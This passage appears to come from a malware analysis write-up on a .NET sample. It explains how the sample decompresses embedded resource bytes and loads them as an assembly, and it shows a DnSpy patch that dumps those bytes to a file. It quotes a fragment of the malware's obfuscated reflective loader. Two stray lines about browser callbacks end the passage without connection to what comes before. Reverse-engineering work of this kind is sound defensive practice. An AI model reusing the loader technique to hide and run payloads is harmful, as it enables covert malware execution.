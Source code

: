 <img width="237" height="117" alt="image" src="https://github.com/user-attachments/assets/eaa54ad2-a45f-4ed1-93aa-ccdd0188635c" />

## What we know so far
- The malware is loading some bytes (as assembly). The assumption is that these bytes contain actual malware code.
- These bytes are embedded in the malware’s resources as shown in the screenshot above.
- These bytes are stored compressed, and are then first decompressed (inside the “this.UUUUUUU…” function).
- Once decompressed and loaded as assembly, the malware tries to load a specific function from the loaded bytes.

We can now try to patch the program to retrieve the decompressed bytes: we can write them inside a new .bin file and see if that can be opened through DnSpy.
**Code 7** can easily be patched inside DnSpy as follows:  
#### Code 10
```csharp
public ExtendedNormalizationForms(byte[] CustomConstantAttribute)
{
  string text = Path.Combine(Path.GetTempPath(), "malw21bytes.bin");
  File.WriteAllBytes(text, CustomConstantAttribute);
  try
  {
      Process.Start("explorer.exe", "/select,\"" + text + "\"");
  }
  catch
  {
  }
}
```
If we now compile the (new) code, it will generate a “malw21bytes.bin” file containing the decompressed bytes. 

Note that we removed the old code where the assembly was loaded. If we run the new code through the debugger, we can actually see that the “normal” code is ran, since a new window appears:

<img width="186" height="141" alt="image" src="https://github.com/user-attachments/assets/04922d00-2e93-4eac-b012-de996b0cbcdd" />

This window appears after we patch the code that originally loaded external assembly bytes.
Apparently these bytes are stopping this window to appear at all, or the “Invoke” function is doing something suspicious.
This might confirm that whatever bytes are loaded by the program might be highly supiscious and contain malware code.


We now have the .bin file containing whatever bytes the malware is loading.
If we check **Code 7** again we can see what bytes specifically the malware is trying to use:
#### Code 11
```csharp
public object WeakReference(byte[] ApplicationIdentity)
{
  Assembly assembly = Assembly.Load(ApplicationIdentity);
  Type type = assembly.GetTypes()[10];
  MethodInfo o = Type.GetType("System.Activator").GetMethods()[2];
  LateBinding.LateCall(o, null, "Invoke", new object[]
  {
      null,
      new object[]
      {
          type,
          new object[]
          {
              StrongNameMembershipCondition.ReadOnlyList,
              StrongNameMembershipCondition.PropagationFlags,
              "PowerPoint_Tools"
```

[15]:  same as Callbacks[0] but specific to Pale Moon.
[16]: same as Callbacks[0] but specific to Waterfox.